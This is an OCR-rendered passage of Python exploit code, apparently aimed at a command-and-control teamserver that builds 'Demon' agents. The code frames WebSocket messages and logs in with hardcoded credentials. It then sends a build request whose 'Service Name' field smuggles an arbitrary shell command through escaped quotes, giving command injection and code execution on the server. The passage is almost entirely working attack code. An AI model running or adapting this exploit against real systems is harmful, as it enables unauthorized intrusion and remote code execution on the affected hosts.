 ```python
    ).encode()
    return request

"""
Formats data/text for WebSocket 
"""
def build_websocket_frame(payload):
    data = payload.encode("utf-8")
    frame = bytearray([0x81])  # FIN + Text frame
    
    # Handle length
    if len(data) <= 125:
        frame.append(0x80 | len(data))
    elif len(data) <= 65535:
        frame.extend([0x80 | 126] + list(len(data).to_bytes(2, 'big')))
    else:
        frame.extend([0x80 | 127] + list(len(data).to_bytes(8, 'big')))
    
    # Mask data
    mask = os.urandom(4)
    frame.extend(mask)
    frame.extend(b ^ mask[i % 4] for i, b in enumerate(data))
    
    return bytes(frame)

"""
Send json data in WebSocket format
"""
def send_payload(socket_id, payload):
    payload_json = json.dumps(payload)
    frame = build_websocket_frame(payload_json)
    write_socket(socket_id, frame)
    response = read_socket(socket_id)

# Credentials/hosts
USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"
host = "127.0.0.1"
port = 40056

# 1. Create a WebSocket handshake, upgrade from HTTP to WebSocket, establish connection.
websocket_request = create_websocket_request(host, port)
write_socket(socket_id, websocket_request)
response = read_socket(socket_id)

# 2. Authenticate to teamserver
payload = payload = {"Body":{"Info":{"Password":hashlib.sha3_256(PASSWORD.encode()).hexdigest(),"User":USER},"SubEvent":3},"Head":{"Event":1,"OneTime":"","Time":"18:40:17","User":USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
print(read_socket(socket_id))

# 3. Send a payload with command injection in a service name
injection = """ \\\\\\\" -mbla; """ + args.command + """ 1>&2 && false #"""
payload = payload = {"Body":{"Info":{"AgentType":"Demon","Arch":"x64","Config":"{\"Amsi/Etw Patch\":\"None\",\"Indirect Syscall\":false,\"Injection\":{\"Alloc\":\"Native/Syscall\",\"Execute\":\"Native/Syscall\",\"Spawn32\":\"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\"Spawn64\":\"C:\\\\Windows\\\\System32\\\\notepad.exe\"},\"Jitter\":\"0\",\"Proxy Loading\":\"None (LdrLoadDll)\",\"Service Name\":\""+injection+"\",\"Sleep\":\"2\",\"Sleep Jmp Gadget\":\"None\",\"Sleep Technique\":\"WaitForSingleObjectEx\",\"Stack Duplication\":false}","Format":"Windows Service Exe","Listener":"zen"},"SubEvent":2},"Head":{"Event":5,"OneTime":"true","Time":"18:39:04","User":USER}}
payload_json = json.dumps(payload)
```